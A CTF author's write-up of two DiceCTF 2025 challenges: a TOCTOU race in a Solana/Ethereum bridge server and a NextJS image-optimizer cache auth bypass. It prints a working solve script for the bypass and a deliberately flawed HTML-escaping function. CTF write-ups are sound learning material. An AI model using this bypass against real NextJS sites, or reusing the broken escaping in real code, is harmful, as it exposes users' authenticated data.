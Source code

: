 ```yaml
---
title: "DiceCTF 2025 Quals Author Writeups"
description: "ft. cursed Solana code and a minor NextJS auth-bypass bug"
date: "2025-03-30"
---
```


#### DiceCTF 2025 Quals
# Author Writeups
by Arc'blroth

I wrote challenges for DiceCTF for the first time this year, and I had a fun time doing so!
Somehow all three of my challenges managed to come out a lil' cursed - but our curve _is_ optimized for low solves, so it worked out in the end.

Besides the (hopefully obvious) Celeste themeing, a consistent theme from this set of challs was racing the clock on remote. The first solutions
many players thought of - and the first solution I myself implemented - to both `pwn/r2uwu2s-resort` and `misc/golden-bridge` are too slow under
real-world network conditions. I might have been a bit _too_ harsh on the timeouts though...

So here are some thoughts on `misc/golden-bridge` and `web/old-site-b-side`, the two "medium"-difficulty challenges I wrote.

# misc/golden-bridge

> Introducing `$BBL` - a smooth revolution in cross-chain defi technology!
>
> Though we haven't gotten back our audit results yet, we believe in the future of Bubble so much that we've decided to shadow-launch it today!
>
> Grab your 10 free `$FTH`s from the airdrop (while supplies last), and remember to watch out for the wind...
>
> **Please do not deploy this challenge until you have a working solution locally.**

Given that DiceCTF 2025 Quals was sponsored by _both_ Zellic and Ottersec, we definitely needed an obligatory blockchain challenge.
golden-bridge was my answer to that - a challenge involving not one, but _two_ blockchains!

> If you're wondering why there's a giant "do not instance until ready" sign, that's because this
> challenge is configured to use a whopping _2 GB_ of memory on remote. Yikes!
>
> It turns out that `solana-test-validator` physically cannot run with less than 1.5 GB of memory,
> and continues to eat up more memory as more slots get processed. There doesn't seem to be any
> real diversity in (stable) Solana validators as of writing this challenge - I would have happily
> used a less memory-hungry validator if one existed...

Something I felt that I had not seen in recent blockchain challenges was _off-chain_ blockchain code. The real-world industry has built
up a huge amount of supporting "web2" infrastructure that reads and writes to the blockchain. But if [web3isgoinggreat](https://www.web3isgoinggreat.com/)
is any good indication, that "web2" code is no less buggy than the web3 code it supports!

Of course then, the vulnerability in golden-bridge lies in neither the Ethereum smart contract code (which does have some sus code such as not checking
the return value of `transferFrom`) nor in the Solana code. Instead, there are two related vulns in the bridge server code at `bridge/app.py`,
neither of which (I hoped) would be obvious at first glance. To quote my [solve script](https://github.com/dicegang/dicectf-quals-2025/blob/main/misc/golden-bridge/solve/solve.py):

> The crux of this solve script is a TOCTOU in `toEth` between solana.py reading data at
> the `Finalized` commitment level whilst sending new transactions without waiting for
> that level of commitment.
>
> Both the Ethereum and Solana blockchain calls in app.py return before the corresponding
> transactions have actually been reflected on-chain. This can be abused on the Ethereum
> side by racing `Bridge.withdraw` and `GET /toSol`, and on the Solana side by calling
> `GET /toEth` repeatedly. While the Ethereum-side exploit is feasible locally, it has a
> low chance of success and doesn't really work on remote - geth is just too dang fast!
> Instead, this solve script uses the TOCTOU on the Solana side, taking advantage of the
> slow time-to-finalization with the default solana-test-validator settings.

Coming from Ethereum, my own first attempt to solve this challenge was to frontrun the `Bridge.withdraw` method on the Ethereum side.
It turns out that this is basically impossible to do on remote due to network latency and the fact that `geth --dev` by default mines
as soon as it has a new transaction. Luckily, it turns out that the default settings for `solana.py` are no more secure than the default
settings for `web3.py` - by default, `solana.py` _reads_ data at the `Finalized` committment model but returns from sending a transaction
as soon as the RPC node accepts it. The idea that you can make a RPC call that might get revoked later isn't specific to the blockchain,
but is definitely different from how I usually think about concurrency on the web!

Writing golden-bridge was actually my first time writing Solana - huge huge shoutout to both @Aplet123 and @NotDeGhost for
helping me write and test this challenge! Coming from Ethereum, a lot of Solana's terminology and design seemed rather foreign:
it took me quite some time to get used to the idea of storing data in small PDA "accounts" rather than at some 32-byte offset 
within a single smart-contract's address. There are definitely upsides to Solana's model though - notice how in `app.py` the
bridge pays for the Ethereum transaction but the user pays for the Solana ones!

<small>And now that I know Solana, expect more cursed cross-blockchain challenges from me in the future...</small>

# web/old-site-b-side

> Old Site (Red Moonrise Mix)
>
> Music by CursedCTF 2023 Authors
>
> DiceCTF 2025 Quals

Both LA CTF 2025's [`web/old-site`](https://github.com/uclaacm/lactf-archive/tree/main/2025/web/old-site) and this challenge were inspired by strellic's corCTF 2024 challenge [`web/repayment-pal`](https://github.com/Crusaders-of-Rust/corctf-2024-public-challenge-repo/tree/master/web/repayment-pal). And if the events of last week are anything to go by, NextJS still has more 0-days to give...

While researching the original `web/old-site`, I looking through the NextJS repo for interesting calls to `fs.readFile` and `fs.writeFile` and found a _really_ sus pair
in [`image-optimizer.ts`](https://github.com/vercel/next.js/blob/9a1cd356dbafbfcf23d1b9ec05f772f766d05580/packages/next/src/server/image-optimizer.ts#L328). It turns out
that these calls aren't actually vulnerable though - NextJS "sanitizes" the components of the cache filename using base64url encoding, so this can't be used to get
arbitrary file read. But if we dare to look a little bit up the call stack, we start to have some questions.

`imageOptimizer` is invoked across two blocks of code in `next-server.ts`: at [`handleNextImageRequest`](https://github.com/vercel/next.js/blob/9a1cd356dbafbfcf23d1b9ec05f772f766d05580/packages/next/src/server/next-server.ts#L812) and [`imageOptimizer`](https://github.com/vercel/next.js/blob/9a1cd356dbafbfcf23d1b9ec05f772f766d05580/packages/next/src/server/next-server.ts#L591) (Vercel this is terrible variable naming). Crucially, neither of these functions care about the existence
of authentication middleware - they will make an "internal" request with the same cookies as the current request and cache the response as long as it
succeeds. (Note that the image optimizer is not run in "minimal mode", Vercel's term for their serverless thing.) If you can convince someone to look
at what is seemingly their own image, you then have 60 steals to steal it from the same URL, as long as you use [the same `Accept:` header](https://github.com/vercel/next.js/blob/9a1cd356dbafbfcf23d1b9ec05f772f766d05580/packages/next/src/server/image-optimizer.ts#L277)!

Thus, here's the solve script for this challenge in its entirety (run with `deno --allow-net`):

```js
const REMOTE = "http://localhost:3000"
const CACHE_URL = `/_next/image?url=/api/me/badge&w=96&h=96&q=100`

const sleep = ms => new Promise(r => setTimeout(r, ms))

console.log(
  await (
    await fetch(`${REMOTE}/api/report`, {
      method: "POST",
      body: `HACKER+IP=${encodeURIComponent(`http://localhost:3000${CACHE_URL}`)}`,
      headers: [["Content-Type", "application/x-www-form-urlencoded"]]
    })
  ).text()
)

await sleep(6_000)

const gif = new TextDecoder("ascii", { fatal: false }).decode(
  await (
    await fetch(`${REMOTE}${CACHE_URL}`, {
        headers: [["Accept", "image/webp"]]
    })
  ).arrayBuffer()
)
console.log(gif.substring(gif.indexOf("dice{"), gif.length))
```

I'm not sure if this counts as a NextJS 0-day or not, since it is decently contrived.
But it is an interesting auth bypass in real-world software, and maybe a good reminder to check _every_ endpoint in your app for vulnerabilties - not just the ones you've defined yourself :D

Also there was an [unintended XSS](https://github.com/dicegang/dicectf-quals-2025/blob/main/web/old-site-b-side/utils.mjs#L2) in both this challenge and the original `web/old-site` lol:

```js
function escapeHtml(x) {
  return x.replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;")
}
```

Luckily, it seems that my overcooked CSP prevented any cheese solves from this. Defense in depth go brr!

